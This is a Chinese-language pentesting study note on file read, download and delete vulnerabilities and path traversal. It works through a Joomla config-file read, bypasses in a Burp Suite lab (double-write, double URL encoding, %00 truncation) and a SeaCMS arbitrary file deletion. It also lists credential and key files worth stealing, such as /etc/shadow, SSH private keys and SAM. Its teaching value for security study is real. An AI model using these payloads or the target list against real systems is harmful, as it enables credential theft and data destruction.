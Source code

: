 # 文件安全

### 文件读取/下载

```
常规下URL:http://xxx.com/upload/1.txt

不安全的下载：http://xxx/com?s=upload/1.txt

#黑盒分析：
1、功能点
文件上传，文件下载，文件删除，文件管理器等地方
2、URL特征
文件名：
download，down，readfile，read，del，dir，path，src，Lang等
参数名：
file、path、data、filepath、readfile、data、url、realpath等
#白盒分析：
上传类函数，删除类函数，下载类函数，目录操作函数，读取查看函数等

利用：下载敏感文件（数据库配置，中间件配置等文件）
```





#### 案例一:文件下载

使用readfile.php中的file变量下载readfile.php

```
http://xxxxx/files/readfile.php?file=readfile.php
```

![image-20240427172109314](D:\Infiltration\笔记\note\图片\image-20240427172109314.png)

readfile.php

![image-20240427172140478](D:\Infiltration\笔记\note\图片\image-20240427172140478.png)

下载index.php文件

```
http://xxxxx/files/readfile.php?file=../index.php
```

![image-20240427172358086](D:\Infiltration\笔记\note\图片\image-20240427172358086.png)



index.php 从首页文件可以看到是Joomla的cms

![image-20240427172437839](D:\Infiltration\笔记\note\图片\image-20240427172437839.png)

Joomla默认数据库配置文件名是：configuration.php



```
http://xxxxx/files/readfile.php?file=../configuration.php
```

![image-20240427173701032](D:\Infiltration\笔记\note\图片\image-20240427173701032.png)



```
/files/readfile.php?file=../../../../../../etc/passwd
```



windows



```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
```

linux

```
/root/.ssh/authorized_keys //如需登录到远程主机，需要到.ssh目录下，新建authorized_keys文件，并将id_rsa.pub内容复制进去
/root/.ssh/id_rsa //ssh私钥,ssh公钥是id_rsa.pub
/root/.ssh/id_ras.keystore //记录每个访问计算机用户的公钥
/root/.ssh/known_hosts
//ssh会把每个访问过计算机的公钥(public key)都记录在~/.ssh/known_hosts。当下次访问相同计算机时，OpenSSH会核对公钥。如果公钥不同，OpenSSH会发出警告， 避免你受到DNS Hijack之类的攻击。
/etc/passwd // 账户信息
/etc/shadow // 账户密码文件
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/redhat-release 系统版本 
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/var/lib/mlocate/mlocate.db //全文件路径
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/porc/self/cmdline //当前进程的cmdline参数
/proc/sched_debug 配置文件可以看到当前运行的进程并可以获得对应进程的pid
/proc/pid/cmdline   则可以看到对应pid进程的完整命令行。
/proc/net/fib_trie   内网IP
/proc/self/environ   环境变量
/proc/self/loginuid   当前用户
```



```
#文件安全-下载&删除-黑白盒
1、下载=读取
常规下载URL：http://www.xiaodi8.com/upload/123.pdf
可能存在安全URL：http://www.xiaodi8.com/xx.xx?file=123.pdf
利用：常规下载敏感文件（数据库配置，中间件配置，系统密匙等文件信息）
2、文件删除（常出现后台中）
可能存在安全问题：前台或后台有删除功能应用
利用：常规删除重装锁定配合程序重装或高危操作

#目录安全-遍历&穿越-黑白盒
1、目录遍历
目录权限控制不当，通过遍历获取到有价值的信息文件去利用
2、目录穿越（常出现后台中）
目录权限控制不当，通过控制查看目录路径穿越到其他目录或判断获取价值文件再利用



```



#### 案例二：文件读取

##### burp路径遍历靶场

随便点进一个页面复制图片地址

![image-20240427213813480](D:\Infiltration\笔记\note\图片\image-20240427213813480.png)



访问后抓包放到repeater里读取文件路径改为读取passwd

```
../../../../etc/passwd 
```



![image-20240427214058002](D:\Infiltration\笔记\note\图片\image-20240427214058002.png)

双写绕过

```
..././..././..././etc/passwd
```

![image-20240427215335352](D:\Infiltration\笔记\note\图片\image-20240427215335352.png)



 二次URL编码绕过

```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc%25%32%66passwd 
```



![image-20240427221548951](D:\Infiltration\笔记\note\图片\image-20240427221548951.png)



![image-20240427221434490](D:\Infiltration\笔记\note\图片\image-20240427221434490.png)



![image-20240427222752147](D:\Infiltration\笔记\note\图片\image-20240427222752147.png)



%00截断

```
../../../../../etc/passwd%00.png
```

![image-20240427223831713](D:\Infiltration\笔记\note\图片\image-20240427223831713.png)



### 文件删除

#### 案例：海洋CMS



登录后台，访问下面路径，点击删除抓包

```
http://192.168.100.1:1002/upload/kajzfg/admin_template.php?path=../templets/default/html
```

![image-20240427232339503](D:\Infiltration\笔记\note\图片\image-20240427232339503.png)



![image-20240427232747772](D:\Infiltration\笔记\note\图片\image-20240427232747772.png)





在upload下创建一个123.txt，尝试发包删除

```
/upload/kajzfg/admin_template.php?action=del&filedir=../../../123.txt 
```

![image-20240427232903444](D:\Infiltration\笔记\note\图片\image-20240427232903444.png)

做了过滤只能删除templets下的文件，加上templets用文件遍历绕过

```
/upload/kajzfg/admin_template.php?action=del&filedir=../templets/default/html/../../../../../../123.txt
```

![image-20240427233038636](D:\Infiltration\笔记\note\图片\image-20240427233038636.png)